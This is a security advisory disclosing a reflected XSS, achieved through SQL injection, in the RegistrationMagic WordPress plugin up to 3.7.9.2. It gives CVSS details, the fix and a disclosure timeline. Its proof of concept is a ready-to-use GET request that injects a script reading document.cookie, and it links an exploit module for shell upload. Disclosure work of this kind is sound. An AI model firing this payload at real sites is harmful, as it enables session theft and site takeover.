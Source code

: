 ```yaml
---
layout: single
title: RegistrationMagic - Custom Registration Forms <= 3.7.9.2 Reflected XSS
date: 2017-12-10
categories:
  - security
  - websec
  - disclosure
tags:
  - wordpress
  - registrationmagic
  - reflected xss
excerpt: Using an SQL injection vulnerability, arbitrary markup can be reflected back to the user, achieving JavaScript execution in the context of the authenticated user.
---
```

## Homepage
[https://wordpress.org/plugins/custom-registration-form-builder-with-submission-manager/](https://wordpress.org/plugins/custom-registration-form-builder-with-submission-manager/)

## Overview
Using an SQL injection vulnerability, arbitrary markup can be reflected back to the user, achieving JavaScript execution in the context of the authenticated user.

See [This Link](https://www.rastating.com/registrationmagic-custom-registration-forms-3-7-9-2-authenticated-sql-injection) for information on the SQL injection vulnerability.

## CVSS Score
4.8

## CVSS Vector
[(AV:N/AC:M/Au:N/C:P/I:P/A:N/E:F/RL:OF/RC:C)](https://nvd.nist.gov/vuln-metrics/cvss/v2-calculator?vector=(AV:N/AC:M/Au:N/C:P/I:P/A:N/E:F/RL:OF/RC:C))

## Versions Affected
3.7.9.2 and below

## Solution
Update to version 3.7.9.3 or higher

## Proof of Concept
```
GET /wp-admin/admin.php?page=rm_field_manage&rm_form_id=-1+union+select+1%2C2%2C3%2C%27%3Cscript%3Ealert(document.cookie)%3C%2Fscript%3E%27%2Cconcat(0x54%2C0x65%2C0x78%2C0x74%2C0x62%2C0x6f%2C0x78)%2C6%2C7%2C8%2C9%2C10%2C11
```

## WordPress Exploit Framework Module
[exploit/xss/reflected/registrationmagic\_reflected\_xss\_shell\_upload](https://github.com/rastating/wordpress-exploit-framework/blob/development/lib/wpxf/modules/exploit/xss/reflected/registrationmagic_reflected_xss_shell_upload.rb)

## WPVDB-ID
[8976](https://wpvulndb.com/vulnerabilities/8976)

## Disclosure Timeline
* **2017-10-04**: Initial discovery
* **2017-12-10**: Released public disclosure
